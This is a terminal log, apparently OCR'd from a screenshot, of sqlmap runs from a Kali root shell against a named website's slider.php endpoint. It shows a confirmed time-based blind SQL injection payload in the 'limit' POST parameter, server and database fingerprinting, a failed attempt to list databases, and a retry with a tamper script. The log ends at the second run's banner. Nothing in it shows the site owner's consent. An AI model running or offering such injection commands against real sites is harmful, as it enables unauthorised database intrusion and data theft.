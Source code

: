 [*] shutting down at 16:16:24

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --level=3 --risk=3  --dbs --no-cast
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.10#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:16:46

[16:16:47] [INFO] resuming back-end DBMS 'mysql' 
[16:16:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:16:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:16:47] [INFO] fetching database names
[16:16:47] [INFO] fetching number of databases
[16:16:47] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:16:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[16:16:55] [ERROR] unable to retrieve the number of databases
[16:16:55] [INFO] falling back to current database
[16:16:55] [INFO] fetching current database
[16:16:55] [INFO] retrieved: 
[16:16:56] [CRITICAL] unable to retrieve the database names

[*] shutting down at 16:16:56

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" --level=3 --risk=3 --no-cast --time-sec=100 --tamper=between --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.10#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
